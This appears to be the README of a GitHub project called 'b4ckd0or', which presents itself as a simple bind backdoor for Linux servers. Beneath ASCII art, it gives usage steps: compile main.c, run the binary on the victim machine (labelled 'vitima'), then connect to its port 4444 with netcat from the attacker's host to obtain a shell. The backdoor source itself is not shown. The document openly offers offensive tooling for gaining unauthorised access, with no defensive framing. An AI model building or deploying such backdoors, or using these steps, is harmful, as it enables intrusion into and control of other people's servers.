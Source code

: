 # b4ckd0or
            /\
           / \\ /\
      /\  /\/  \\V  \/\
     / \\/ // \\\\\ \\ \/\
    //  / Mednc1c \/ \\
   
Simple bind backdoor destined for linux servers
Use:

    root@samsepi0l:~# gcc main.c -o backdoor
    root@vitima:~# ./backdoor
    root@samsepi0l:~# nc -v 192.168.0.52 4444
    
